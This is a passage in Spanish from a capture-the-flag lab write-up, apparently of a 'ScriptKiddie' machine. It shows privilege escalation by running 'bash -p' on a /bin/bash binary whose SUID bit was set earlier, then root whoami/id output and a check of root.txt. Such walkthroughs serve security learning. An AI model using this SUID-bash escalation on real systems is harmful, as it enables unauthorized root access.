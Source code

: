 Vemos que se ha ejecutado correctamente y nos ha permitido asignarle permisos **SUID** al binario **/bin/bash**.

Por último, nos queda ejecutar **bash** con privilegios de propietario root y visualizar la flag:

```bash
msf6 > bash -p
 [*] exec: bash -p
 root@scriptkiddie:/home/pwn# whoami
 root
 root@scriptkiddie:/home/pwn# id
 uid=0(root) gid=0(root) groups=0(root)
 root@scriptkiddie:/home/pwn#
```

### Root Flag

Visualizamos la flag del usuario **root**:

```bash
root@scriptkiddie:~# wc -c root.txt 
 33 root.txt
```
